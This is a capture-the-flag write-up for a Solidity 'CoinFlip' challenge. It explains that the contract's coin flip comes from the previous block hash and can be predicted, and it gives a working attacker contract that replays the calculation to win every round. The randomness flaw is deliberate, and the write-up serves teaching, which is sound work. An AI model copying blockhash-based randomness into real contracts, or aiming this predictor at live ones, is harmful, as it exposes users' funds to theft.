 # CoinFlip   
This challenge presents us with a smart contract that simulates a coin flip challenge. We have to guess the correct outcome 10 times in a row to win the game. If we fail, the counter resets to 0.

But how can we do this? 🤔 Well, there are two main components we need to focus on: the `FACTOR` variable and the `flip` function.

`FACTOR` is a predefined value used to determine the coin flip outcome.   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
The `flip` function uses the hash of the previous block (`blockhash(block.number - 1)`) to determine the coin flip result.
The result is derived by dividing the block hash by `FACTOR`. If the result is 1, it's heads (`true`); otherwise, tails (`false`).
If the player's guess matches the result, `consecutiveWins` increments; otherwise, it resets to 0.
Since the result is based on publicly available blockchain data (the previous block's hash), we can predict the outcome and always guess correctly.
I created the following contract to solve this challenge (we need to call the `attack` function 10 times):  
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

contract AttackContract {
    uint256 FACTOR;
    address victim;

    constructor() {
        FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        victim = // the address of the instance;
    }

    function attack() public {
        (bool success, ) = victim.call(
            abi.encodeWithSignature("flip(bool)", flip())
        );
    }

    function flip() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```
